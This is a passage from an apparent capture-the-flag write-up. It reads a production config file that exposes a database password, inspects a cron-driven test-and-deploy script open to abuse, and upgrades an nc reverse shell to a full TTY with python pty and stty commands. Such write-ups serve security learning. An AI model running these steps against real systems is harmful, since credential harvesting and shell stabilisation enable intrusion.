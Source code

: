 ```shell
cat /app/config_prod.json
```

```json
{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}
```

in the testing folder, we can get the process :

```shell
cat /app/app-testing/README.md
```

```text
# Testing

New builds in this folder are tested periodically.

If the tests pass, the new build is deployed to the active site.
```


```bash
cat /app/test_and_update.sh
```

```
#!/bin/bash

# update prod with latest from testing constantly assuming tests are passing

echo "Starting test_and_update"
date

# if already running, exit
ps auxww | grep -v "grep" | grep -q "pytest" && exit

echo "Not already running. Starting..."

# start in dev folder
cd /app/app-testing

# system-wide source doesn't seem to happen in cron jobs
source /app/venv/bin/activate

# run tests, exit if failure
pytest -x 2>&1 >/dev/null || exit

# tests good, update prod (flask debug mode will load it instantly)
cp -r superpass /app/app/
echo "Complete!"
```

Now let's upgrade the shell to get full TTYs :

```
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
